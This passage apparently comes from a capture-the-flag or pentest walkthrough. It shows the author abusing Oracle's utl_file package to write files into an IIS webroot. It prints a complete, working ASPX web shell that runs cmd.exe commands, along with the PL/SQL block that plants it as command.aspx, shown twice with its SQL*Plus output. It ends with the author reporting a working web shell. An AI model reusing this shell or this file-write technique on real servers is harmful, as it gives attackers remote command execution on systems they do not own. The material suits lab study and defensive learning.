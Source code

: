 And visited the `/hello.txt` on port `80`.

![s-2](https://user-images.githubusercontent.com/87711310/217783890-0bc2668c-af89-4ca5-b7b2-3f064cda8cfd.png)

So, now that I was able to write files on the system and run it, the next thing I was gonna do is to write and upload a web-shell.

```
declare
  f utl_file.file_type;
  s varchar(5000) := '<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>';
begin
  f := utl_file.fopen('/inetpub/wwwroot', 'command.aspx', 'W');
  utl_file.put_line(f, s);
  utl_file.fclose(f);
end;
```

```
SQL> declare
  f utl_file.file_type;
  s varchar(5000) := '<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>';
begin
  f := utl_file.fopen('/inetpub/wwwroot', 'command.aspx', 'W');
  utl_file.put_line(f, s);
  utl_file.fclose(f);
end;  2    3    4    5    6    7    8  
  9  /

PL/SQL procedure successfully completed.
```

Once, I got `procedure successfully completed`, I visited the `/commad.aspx` on port `80` and got back a web-shell.
